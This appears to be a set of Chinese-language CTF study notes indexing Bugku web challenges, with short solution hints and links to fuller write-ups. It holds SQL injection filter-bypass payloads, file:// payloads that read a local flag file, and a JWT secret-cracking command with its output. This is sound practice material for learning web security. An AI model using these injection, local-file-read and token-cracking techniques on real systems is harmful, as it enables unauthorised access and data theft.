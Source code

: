1、[[ezbypass-cat]] ----白名单目录穿透
2、[[very_easy_sql]]  ----------[[ssrf]]利用gopher协议+sql注入的cookie盲注
		参考文章： https://blog.51cto.com/u_15437432/6717316
3、[[mfw]]    ---------------- git源码泄露 + assert拼接












#### 1、[https://ctf.bugku.com/challenges/detail/id/406.html](https://ctf.bugku.com/challenges/detail/id/406.html%E3%80%81)
题解：[[2、ctf-websqli-0x1-bugku题解]]
```sql
mysql> select * from test where id=-1e0union select 3,'huhu';
+------+------+
| id   | name |
+------+------+
|    3 | huhu |
+------+------+
1 row in set (0.00 sec)
```

注意：对于mysqli来说query方法可以执行insert
学到的东西：
```sql
#使用浮点数加union的方式绕过空格，使用order by查询第一行数据
select * from users where username=1E0'unoin select * from users order by username desc
select * from users where username=1E0'unoin insert

```
[[sql注入绕过]]
#### 2、baby lfi 2
https://ctf.bugku.com/challenges/detail/id/426.html
题解：[[1、baby lfi 2题解]]
#### 3、nextGen2
https://ctf.bugku.com/challenges/detail/id/431.html
```
//以下三个的效果是一样的
file:///flag.txt
file://127.0.0.1/flag.txt
file://127.0.1/flag.txt
```
#### 4、whois
https://ctf.bugku.com/challenges/detail/id/432.html
[[whois题解]]

#### 1、just-work-type
注意：这个token由三部分组成以.分割，前两个部分是由base64编码的（注意万能解密工具中的那个base64编码可能没法用，用小葵，然后，破解密码的工具在kali中）
破解密码工具使用方法如下：
```
┌──(root㉿kali)-[~/桌面/c-jwt-cracker-master]
└─# ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOmZhbHNlLCJkYXRhIjp7InVzZXJuYW1lIjoiem9tYm8iLCJwYXNzd29yZCI6InpvbWJvIn19LCJpYXQiOjE3MDE2ODAxNDcsImV4cCI6MTcwMTY4Mzc0N30.d8DbLwxb3aqXtc2a8DsZOuAXFruBWbWYr8YaGF-ig5I
Secret is "123"
                             
```
[[json web token绕过思路]]

#### 1、ez_curl:
[[ez_curl题解]]
#### 2、unseping：
https://blog.csdn.net/weixin_62871152/article/details/127651737
[[unseping题解]]

